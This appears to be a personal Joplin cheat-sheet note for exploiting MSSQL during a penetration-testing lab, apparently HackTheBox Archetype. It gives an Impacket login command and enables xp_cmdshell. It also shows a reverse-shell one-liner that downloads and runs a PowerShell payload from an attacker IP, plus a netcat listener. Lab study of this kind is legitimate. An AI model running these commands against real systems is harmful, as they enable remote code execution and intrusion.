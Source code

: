 MSSQL

# Scripted method

Downloaded this script to run to the target with credentials edited in the script

https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py 

# Default method

Use Impacket's MsSqlClient

> python3 ~/tools/mssqlclient.py ARCHTYPE\\sql_svc@10.10.10.27 -windows-auth

![fafd8448ff9800ed403b3eefff19de4a.png](:/1d9b3a8fc97549efb76c3e7e6d63d908).

[MSSQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

- First Enable xp_cmdshell and do an execution of the command to check if the shell is working

> enable\_xp\_cmdshell;
> 
> EXEC xp_cmdshell whoami

- Then, attempt to get a reverse shell

> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.119.206/Invoke-PowerShellTcp.ps1") | powershell -noprofile'
> 
> \# Make sure to have the command Invoke-PowerShellTcp called in the script with the LHOST and LPORT defined
> 
> sudo nc -nlvp 433

id: 8aca581f7ef7448c9a0318ef9848fb51
parent_id: 17338627f6dc4ef4856d44508b33e0b1
created_time: 2022-01-16T06:34:19.142Z
updated_time: 2022-08-23T14:51:32.280Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-16T06:34:19.142Z
user_updated_time: 2022-08-23T14:51:32.280Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1